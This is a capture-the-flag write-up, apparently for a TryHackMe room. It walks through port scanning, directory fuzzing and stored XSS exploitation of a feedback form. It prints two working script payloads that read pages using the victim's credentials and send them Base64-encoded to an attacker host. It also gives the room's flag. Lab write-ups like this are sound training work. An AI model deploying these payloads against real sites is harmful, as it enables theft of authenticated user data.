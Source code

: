 ```yaml
---
sticker: emoji//1f6cd-fe0f
---
```



# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 8080 |  http   |

We got two open ports, `ssh` and `http` on port `8080`, let's take a look at the website:

![](Pasted%20image%2020241202124915.png)

Let's check source code:


![](Pasted%20image%2020241202124936.png)

Nothing useful, let's try to fuzz in order to find anything useful:



## FUZZING
---

![](Pasted%20image%2020241202125736.png)

Found a `/view_feedbacK` directory, it has status code `401` which means we are not authorized to read it, so, we need to be able to perform some sort of privilege escalation to be able to read it.

# RECONNAISSANCE
---
if we take a look at the feedback, we are able to see the following:

![](Pasted%20image%2020241202130251.png)

seems like a simple feedback form, but I believe this is vulnerable to XSS, so, let's try to craft a payload to get the contents of the home page to check if it's either vulnerable or not.




# EXPLOITATION
---


As said, this will be our payload:

```js
<script>  
fetch("/", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://IP:80/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

```ad-note
#### Breakdown of the code:

- `fetch("/")`: Requests the home page's content.
- `btoa(text)`: Encodes the content in Base64 to safely transmit it.
- `fetch('http://your_ip:80')`: Sends the encoded data to your server.
```

Let's start a python server and check if it works:

![](Pasted%20image%2020241202130611.png)

After sending the payload, we receive the contents of the page we have requested, in this case, home page, if we try decoding that, we get the following:


![](Pasted%20image%2020241202130742.png)


As shown, we successfully exploited [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/CROSS SITE SCRIPTING/CROSS SITE SCRIPTING (XSS).md|XSS]]and got the contents of the home page, right now, we can take other exploitations paths, such as trying to get a reverse shell and some other, to make this CTF simple, let's just use a payload that retrieves the contents of `http://10.10.133.79:8080/flag.txt`, since this is the file we want to read anyway.


# READING THE FILE
---


```js
<script>  
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://10.6.34.159:9001/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

This payload does the same as the previous one, it just targets that `flag.txt` file, let's send it and get our base64 encoded flag:

![](Pasted%20image%2020241202131136.png)

Nice, let's decode:

![](Pasted%20image%2020241202131156.png)

We got the flag and finished the CTF, Gg!

```ad-hint

Flag: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`
```


